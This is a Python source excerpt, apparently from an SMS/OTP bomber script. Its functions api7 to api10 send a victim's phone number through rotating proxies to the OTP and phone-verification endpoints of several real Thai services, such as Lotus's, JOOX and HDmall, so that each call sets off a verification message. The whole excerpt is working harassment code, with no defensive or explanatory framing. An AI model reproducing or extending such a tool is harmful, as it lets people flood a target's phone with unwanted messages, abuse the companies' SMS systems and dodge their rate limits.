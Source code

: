 
def api7(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.post(
      "https://api.true-shopping.com/customer/api/request-activate/mobile_no",
      data={"username": phone},
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )


def api8(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.get(
      f"https://hdmall.co.th/phone_verifications?express_sign_in=1&mobile={phone}",
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )


def api9(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.post(
      "https://api-customer.lotuss.com/clubcard-bff/v1/customers/otp",
      data={"mobile_phone_no": phone},
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )


def api10(phone):
  da = datetime.datetime.now()
  ok = da.strftime("%H:%M:%S")
  r = requests.get(
      f"https://api.joox.com/web-fcgi-bin/web_account_manager?optype=5&os_type=2&country_code=66&phone_number=0{phone}&time=1641777424446&_=1641777424449&callback=axiosJsonpCallback2",
      proxies={'http': 'http://' + random.choice(s)})
  if r.status_code == 200 or r.status_code == 201:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}"
    )
  else:
    print(
        f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}"
    )
